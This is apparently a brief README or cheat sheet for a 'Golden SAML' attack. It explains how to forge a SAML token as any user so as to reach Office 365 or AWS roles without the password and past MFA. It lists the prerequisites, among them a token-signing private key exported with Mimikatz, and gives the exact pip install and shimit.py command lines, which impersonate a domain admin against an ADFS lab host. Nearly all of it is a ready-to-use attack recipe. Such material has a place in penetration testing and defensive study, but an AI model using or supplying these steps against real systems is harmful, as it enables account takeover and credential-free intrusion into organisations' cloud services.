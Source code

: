 # AWS - Golden SAML

### Using the extracted information, the tool will generate a forged SAML token as an arbitrary user that can then be used to authenticate to Office 365 without knowledge of that user's password. This attack also bypasses any MFA requirements.

## Requirements:

#### 1) Token-signing private key (export from personal store using Mimikatz)

#### 2) IdP public certificate

#### 3) IdP name

#### 4) Role name (role to assume)

## Commands:

#### 1) Install the proper python libraries

    python -m pip install boto3 botocore defusedxml enum python_dateutil lxml signxml 

#### 2) 

    python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012
